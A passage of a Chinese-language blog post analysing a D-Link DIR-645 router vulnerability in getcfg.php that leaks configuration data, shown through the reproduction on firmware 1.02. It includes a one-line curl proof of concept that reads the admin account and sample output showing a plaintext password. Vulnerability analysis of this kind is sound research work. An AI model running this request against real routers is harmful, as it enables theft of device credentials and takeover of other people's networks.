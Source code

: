 ```yaml
---
layout: post
title:  "Dlink getcfg.php远程敏感信息读取漏洞分析"
date:   2019-10-06 21:00:00
categories: Vuln_Analysis IOT
permalink: /archivers/d-link-getcfg_php-info-leak
---
```


**欢迎关注公众号[平凡路上](https://mp.weixin.qq.com/s/TR-JuE2nl3W7ZmufAfpBZA)，平凡路上是一个致力于二进制漏洞分析与利用经验交流的公众号。**


这个漏洞似乎在Dlink很多的产品都存在，此次分析主要是针对dir-645，将该漏洞点从1.02到1.04都分析一遍。

## 漏洞描述

D-Link DIR 615/645/815是友讯（D-Link）公司的一款无线路由器产品。 出现问题的页面是`getcfg.php`，`1.02`及其之前，由于没有校验，可直接访问导致信息泄露；`1.02`之后，虽然有权限的检查，但是由于`cgibin`程序中代码逻辑出现了问题，导致可绕过校验，实现泄露。

## 漏洞复现

在[官网](ftp://ftp2.dlink.com/PRODUCTS/DIR-645/REVA/DIR-645_FIRMWARE_1.02.ZIP)下载固件，版本是1.02；1.03版本的[固件链接](ftp://ftp2.dlink.com/PRODUCTS/DIR-645/REVA/DIR-645_FIRMWARE_1.03.ZIP)以及1.04版本的[固件链接](ftp://ftp2.dlink.com/PRODUCTS/DIR-645/REVA/DIR-645_FIRMWARE_1.04.B11.ZIP)。

针对1.02版本固件的[poc代码](https://vuldb.com/?id.7843)如下：

```bash
curl -d SERVICES=DEVICE.ACCOUNT http://xx.xx.xx.xx/getcfg.php
```

可以看到成功获取admin账号与密码。

```bash
<uid>USR-</uid>
<name>admin</name>
<usrid></usrid>
<password>Haan1324</password>
```
